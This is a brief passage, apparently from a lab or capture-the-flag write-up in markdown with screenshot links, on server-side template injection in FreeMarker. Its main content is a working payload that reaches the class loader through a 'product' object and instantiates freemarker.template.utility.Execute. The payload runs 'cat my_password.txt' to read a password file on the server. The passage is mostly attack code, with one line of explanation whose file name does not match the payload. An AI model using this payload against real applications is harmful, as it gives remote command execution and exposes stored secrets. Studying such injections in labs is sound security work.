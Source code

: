 <img src="images/image30.jpg" alt="third" width="500">

To open file we use cat my_passwrd.txt
```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}
```

<img src="images/image31.jpg" alt="third" width="500">
